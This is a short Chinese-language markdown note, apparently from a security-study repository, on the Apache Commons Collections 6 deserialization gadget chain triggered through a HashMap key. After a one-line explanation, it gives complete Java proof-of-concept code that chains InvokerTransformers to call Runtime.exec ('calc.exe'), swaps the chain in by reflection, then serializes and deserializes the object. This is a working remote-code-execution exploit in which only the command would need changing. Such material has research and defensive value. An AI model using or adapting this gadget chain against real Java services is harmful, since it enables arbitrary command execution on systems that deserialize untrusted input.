

# CommonsCollections6-HashMap

## 简单分析


我们可以看到hashmap中，对key调用了hash方法，因此也可以触发TiedMapEntry的getValue从而最终到LazyMap的get方法最终触发transform的整个利用



## payload

```java
package ysoserial.mytest;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CommonsCollections6Multiple {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] { String.class,
                Class[].class }, new Object[] { "getRuntime",
                new Class[0] }),
            new InvokerTransformer("invoke", new Class[] { Object.class,
                Object[].class }, new Object[] { null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] { String.class },
                new String[] { "calc.exe" }),
            new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        HashMap expMap = new HashMap();
        expMap.put(tme,"keykey");
        outerMap.remove("keykey");
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}

```

